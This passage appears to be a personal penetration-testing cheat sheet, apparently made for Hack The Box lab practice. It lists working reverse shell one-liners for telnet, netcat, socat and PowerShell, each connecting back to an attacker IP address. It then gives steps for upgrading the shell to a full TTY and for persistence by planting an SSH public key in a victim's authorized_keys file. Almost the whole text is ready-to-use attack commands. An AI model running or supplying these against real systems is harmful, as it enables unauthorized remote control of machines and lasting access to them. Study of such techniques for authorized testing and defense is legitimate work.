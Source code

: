 ```
telnet ATTACKING-IP 80 | /bin/bash | telnet 192.168.1.2 4444

rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 4444 0/tmp/p
```

### Netcat Reverse Shell

```
nc -e /bin/sh 192.168.1.2 80

rm -f /tmp/p; mknod /tmp/p p && nc 192.168.1.2 4444 0/tmp/p
```

### Socat Reverse Shell

`socat tcp-connect:<IP>:<PORT> exec:"bash -li",pty,stderr,setsid,sigint,sane`

### Powershell Reverse Shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.92",9090);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c '$client = New-Object System.Net.Sockets.TCPClient('10.10.14.92',9090);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
## Upgrading TTY 
- Using #pty
	- On VIctim
		- `python3 -c 'import pty; pty.spawn("/bin/bash")'` 
		- then make it to background process (ctrl + Z)
	- On Attacker
		- You can use the following
		 ```shell
hnathan26@htb[/htb]$ stty raw -echo
hnathan26@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
 ```
- We can get a problem on the reverse shell and out terminal size for this we can fix with
	- Checking our terminal
		- `echo $TERM` -> #tmux-256color
		- `stty size` -> <row\> <col\>
	- On the reverse shell
		- `export TERM=<YOURVALUE>`
		- `stty rows <row> columns <col>`
- we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user
	- We Create Key `ssh-keygen`
	- we will copy our `.pub` to victims `.ssh` folder and we will use `-i` with our private key on our computer
 ```